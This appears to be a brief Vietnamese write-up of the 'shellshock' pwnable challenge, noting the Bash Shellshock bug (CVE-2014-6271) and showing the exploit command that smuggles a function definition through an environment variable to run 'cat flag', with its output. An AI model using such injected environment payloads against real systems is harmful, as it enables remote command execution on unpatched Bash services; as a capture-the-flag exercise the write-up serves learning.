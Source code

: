 # shellshock
## Phân tích
- Một bug về Unix Bash tên Shellshock
![Alt text](image.png)

## Khai thác

```
shellshock@pwnable:~$ env x='() { :; }; ./bash -c "cat flag"' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```